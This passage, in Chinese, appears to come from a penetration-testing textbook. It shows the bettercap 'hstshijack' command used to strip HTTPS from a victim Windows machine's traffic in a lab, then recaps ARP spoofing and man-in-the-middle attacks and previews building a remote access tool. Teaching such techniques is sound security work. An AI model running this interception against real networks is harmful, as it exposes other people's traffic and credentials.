

图 5.21 – 帮助命令

接下来，要查看原始 HTTP 流量，运行以下命令：

```
hstshijack/hstshijack
```

这将开始剥离流量。现在，如果你转到 Windows 机器并访问 google.com 等网站，你会看到网站连接是不安全的。如果你访问 google.com，你会注意到 URL 前有一个 Not secure 标签。

你现在应该拥有一个不安全的 Google 版本。如果你转到运行 bettercap 的 Kali Linux 终端，你应该能看到网络流量。

**注意！**
请注意，像 Google、Facebook 等大公司在安全上花费了巨额资金，并不断努力改进其保护方法，因此今天有效的攻击明天可能就不起作用了。这就是为什么渗透测试人员和网络安全防御团队不断处于追逐游戏中。前面示例的目标是展示这些方法在实践中如何运作。到你自己使用时，情况可能已经改变，此攻击方法可能有效也可能无效。保持更新非常重要。本书的目的是不是让你困在特定工具的使用上，而是向你展示渗透测试人员和安全分析师的思考方式。

## 总结

在本章中，我们在上一章学到的知识基础上，使用它构建了一个 ARP spoof 程序，使我们能够拦截本地网络上的流量。然后，我们学习了 HTTP 和 HTTPS 协议的工作原理，以及它们如何被中间人攻击破坏。

在下一章中，我们将探讨一个更令人兴奋的话题：恶意软件开发。这可以帮助我们手动接管受害者的机器并在其上执行某些任务。通过这样做，我们将学习如何构建恶意软件 **远程访问工具** 来控制受害者的计算机。我们将构建一个程序，使我们能够远程接管受害者的机器并在其上执行多个任务。下一章见！
